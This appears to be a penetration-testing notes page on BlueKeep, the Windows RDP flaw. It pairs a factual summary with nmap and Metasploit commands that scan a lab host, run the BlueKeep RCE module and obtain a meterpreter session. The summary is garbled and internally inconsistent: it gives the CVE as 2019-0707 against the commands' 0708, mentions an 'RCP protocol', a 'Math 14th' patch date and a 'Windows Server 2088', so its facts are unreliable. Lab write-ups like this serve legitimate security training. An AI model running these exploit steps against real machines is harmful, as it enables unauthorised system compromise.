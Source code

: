 #### Description

* BlueKeep (CVE-2019-0707) is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
* The BlueKeep vulnerability was made public by Microsoft in May 2019.
* The BlueKeep exploit takes advantage of a vulnerability in the Windows RCP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication.
* Microsoft released a patch for this vulnerability on Math 14th, 2019 and has urged companies to patch this vulnerability as soon as possible.
* At the time of discovery, about 1 million systems worldwide were found to be vulnerable.
* The BlueKeep vulnerability affects multiple versions of Windows :
  * XP
  * Vista
  * Windows 7
  * Windows Server 2088 & R2

#### Exploit

* The BlueKeep vulnerability has various illegitimate PoC's and exploit code that could be malicious in nature. It is therefore recommended to only utilize verified exploit code and modules for exploitation.
* The BlueKeep exploit has an MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
* The BlueKeep exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.

_Note: targeting kernel space memory and application can cause system crashes._

```bash
john@attack> sudo nmap -p 3389 10.10.10.7
john@attack> msfconsole

msf6> search BlueKeep
msf6> use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf6> set rhosts 10.10.10.7
msf6> exploit
```

<figure><img src="../../.gitbook/assets/47.png" alt=""><figcaption></figcaption></figure>

```bash
msf6> use scanner/rdp/cve_2019_0708_bluekeep_rce
msf6> set rhosts 10.10.10.7
msf6> set target 2
msf6> exploit

meterpreter> getuid
```

### Exploit WinRM
